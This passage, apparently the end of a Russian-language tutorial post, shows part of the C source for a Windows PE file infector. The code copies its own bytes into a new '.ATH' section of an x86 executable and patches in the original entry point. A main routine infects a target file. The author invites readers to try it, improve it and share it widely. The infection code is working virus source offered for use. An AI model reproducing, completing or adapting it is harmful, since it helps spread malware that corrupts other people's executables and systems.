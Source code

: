 ```c
 
    byte mac[1000];
    byte *fb = ((byte *)(start));
    DWORD *invalidEP;
    DWORD i = 0;
 
    while (i < ((end - 11) - start)){
        invalidEP = ((DWORD*)((byte*)start + i));
        if (*invalidEP == 0xdeadbeef){
            /*
                Так как значение OEP (оригинальная точка входа) хранится в переменной внутри 
                кода инфектора и если мы хотим ссылаться на него из опкодов, то self-read код 
                заполнит недействительный адрес, так как мы укажем на то, что существует только 
                здесь, а не на раздел данных зараженной программы. Решение: мы поместим 
                заглушку со значением 0xdeadbeef, чтобы позже перезаписать туда OEP.
            */
            DWORD old;
            VirtualProtect((LPVOID)invalidEP, 4, PAGE_EXECUTE_READWRITE, &old);
            *invalidEP = OEP;
        }
        mac[i] = fb[i];
        i++;
    }
    SetFilePointer(file, last->PointerToRawData, NULL, FILE_BEGIN);
    WriteFile(file, mac, i, &dw, 0);
    CloseHandle(file);
    return true;
}
 
void main(){
    char *file = "C:\\Users\\M\\Desktop\\Athena.exe";
    int res = AddSection(file, ".ATH", 400);
    switch (res){
    case 0:
        printf("Error adding section: File not found or in use!\n");
        break;
    case 1:
        printf("Section added!\n");
        if (AddCode(file))
            printf("Code written!\n");
        else
            printf("Error writting code!\n");
        break;
    case -1:
        printf("Error adding section: Invalid path or PE format!\n");
        break;
    case -2:
        printf("Error adding section: Section already exists!\n");
        break;
    case -3:
        printf("Error: x64 PE detected! This version works only with x86 PE's!\n");
        break;
    }
}
```

Пробуйте, улучшайте, делайте свое и самое главное: ДЕЛИТЕСЬ ЭТИМ С ДРУГИМИ!

Счастливого кодинга!

